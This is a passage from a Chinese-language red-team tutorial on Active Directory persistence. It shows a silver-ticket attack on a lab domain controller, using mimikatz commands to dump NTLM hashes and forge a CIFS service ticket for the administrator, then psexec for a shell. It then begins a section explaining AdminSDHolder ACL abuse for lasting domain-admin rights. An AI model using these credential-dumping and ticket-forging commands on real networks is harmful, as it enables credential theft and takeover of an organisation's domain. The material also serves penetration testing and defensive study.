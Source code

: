 0x02 银票
=======

如果我们拥有服务的 hash，就可以给自己签发任意用户的 TGS 票据。金票是伪造 TGT 可用于访问任何 Kerberos 服务，而银票是伪造 TGS，仅限于访问针对特定服务器的任何服务。

这里使用 CIFS 服务，该服务是 windows 机器之间的文件共享。

2.1 获取 sid
----------

```
whoami /user
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAHQaExYiayDR9xKpH0ia79PxoVyMkxQicELqzY1Tr5CsauSvicQlg9KEcEA/640?wx_fmt=png)

2.2 导出服务账号的 NTLM Hash
---------------------

```
privilege::Debugsekurlsa::logonpasswords
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAytFs9pwsfIMjFhGmvm7AO9CfIeh4eS322gmh5Kic2np5DsyRxxubMcA/640?wx_fmt=png)

2.3 创建银票
--------

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAN1shKrq6o2MKvw9PzX2ZOOWlV1EYnic60H2zKm28OqJPUJibOzFEs0aw/640?wx_fmt=png)

```
kerberos::golden /domain:redteam.local/sid:S-1-5-21-151877218-3666268517-4145415712/target:DC.redteam.local/service:cifs /rc4:0703759771e4bed877ecd472c95693a5/user:administrator /ptt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAWrD9VA79c28Qgwh5GVTV3YUUdvOJx2fI0rghQAibHURCAGniaYhPr4cg/640?wx_fmt=png)

psexec 获取 DC 机器 cmd

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAu91hXom0BmNJkYicDrsvAzZO6CARcCruvJ8ibzibWq84N1T0UNDfFfdHA/640?wx_fmt=png)

0x03 AdminSDHolder 组
====================

AdminSDHolder 是一个特殊的 AD 容器，具有一些默认安全权限，用作受保护 AD 账户和组的模板，当我们获取到域控权限，就可以通过授予该用户对容器进行滥用，使该用户成为域管。

默认情况下，该组的 ACL 被复制到所有 “受保护组” 中。这样做是为了避免有意或无意地更改这些关键组。但是，如果攻击者修改了 AdminSDHolder 组的 ACL，例如授予普通用户完全权限，则该用户将拥有受保护组内所有组的完全权限（在一小时内）。如果有人试图在一小时或更短的时间内从域管理员中删除此用户（例如），该用户将回到组中。

```
在server2000中引入，默认包含如下的组：AdministratorsDomainAdminsAccountOperatorsBackupOperatorsDomainControllersEnterpriseAdminsPrintOperatorsReplicatorRead-only DomainControllersSchemaAdminsServerOperators
```

其中 Administrators、Domain Admins、Enterprise Admins 组对 AdminSDHolder 上的属性具有写权限，受保护的 ad 账户和组的具备 admincount 属性值为 1 的特征。

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvouibv6HFgEibXjjPKFXIKduWSAC8xYrBZq4b7kOyiagI6hc0bUO53KurA0xXCzz4CFGdibJQ5ibkjZdCwqg/640?wx_fmt=png)
